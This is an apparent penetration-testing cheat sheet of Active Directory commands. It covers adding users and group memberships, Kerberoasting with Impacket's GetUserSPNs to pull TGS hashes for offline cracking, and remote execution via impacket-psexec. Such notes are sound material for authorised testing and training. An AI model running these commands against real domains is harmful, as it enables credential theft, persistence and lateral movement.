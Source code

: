 # Active Directory
Here there is different commands to interact with a domain
## Add User
````powershell
net user <username> <password> /add /domain
````

## Add to domain group
````powershell
net group <Group_Name> <username> /add
````

## Add to local group
````powershell
net localgroup <Group_Name> <username> /add
````
## Add to Remote Management group
Remote Management Users group is to allow users to remotely manage computers with Server Manager and RSAT - PSremoting or WinRM
````powershell
net localgroup "Remote Management Users" <username> /add
````
## GetUserSPNs
Impacket’s GetUserSPNs.py again simplifies the process to find SPNs, and is also able to request the TGS and
extract the hash for offline cracking.
````bash
impacket-GetUserSPNs <domain>/<username> -dc-ip <DC-IP>
````
### Requesting TGS ticket
Requesting a Ticket Granting Service ticket, which is can be cracked offline because the TGS_REP is encrypted using NTLM password hash of the account in whose context the service instance is running.
````bash
impacket-GetUserSPNs <domain>/<username> -dc-ip <DC-IP> -request
````
## PSexec
````bash
impacket-psexec <domain>/<username>:<password>@<IP-ADDRESS>
````
